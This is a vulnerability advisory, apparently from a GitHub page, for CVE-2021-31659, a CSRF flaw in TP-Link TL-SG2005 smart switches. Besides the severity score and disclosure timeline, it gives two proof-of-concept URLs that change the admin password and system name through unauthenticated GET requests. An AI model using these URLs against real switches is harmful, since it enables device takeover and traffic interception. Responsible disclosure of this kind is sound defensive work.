 # CSRF on TP-Link Smart Switch

## Overview

- **CVE ID**: [CVE-2021-31659](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31659)

- **Type**: [Cross-Site Request Forgery (CSRF) *- (352)*](http://cwe.mitre.org/data/definitions/352.html)

- **Vendor**: TP-LINK (https://www.tp-link.com)

- **Products**: Switch, such as [TL-SG2005](https://www.tp-link.com.cn/product_925.html), TL-SG2008(US), etc.

- **Version**: 2.0 (1.0.0 Build 20180529 Rel.40524)


## Severity

**High** 7.6 CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:H/A:L

## Description

TL-SG2005 is vulnerable to Cross Site Request Forgery (CSRF). All configuration information is placed in the URL, without any additional token authentication information. A malicious link opened by the switch administrator may cause the password of the switch to be modified and the configuration file to be tampered with. 

PoC

```shell
# modify password
http://192.168.0.1/usr_account_set.cgi?txt_username=admin&txt_oldpwd=admin&txt_userpwd=admin123&txt_confirmpwd=admin123

# modify name
http://192.168.0.1/system_name_set.cgi?sysName=TL-SG2005
```

Reason

All parameters are placed in the URL and no token is set, which leads to CSRF attack on the switch. The attacker can set all the configurations of the switch, and even set up port mirroring to capture user Internet traffic.

## Disclosure Timeline

- 10-Apr-2021 Discoverd the vulnerability
- 11-Apr-2021 Responsibly disclosed vulnerability to vendor
- 13-Apr-2021 Vendor Acknowledged the issue
- 16-Apr-2021 Requested for CVE-ID assignment
- 23-Apr-2021 CVE-ID Assigned
- 26-May-2021 Notify CVE about a publication
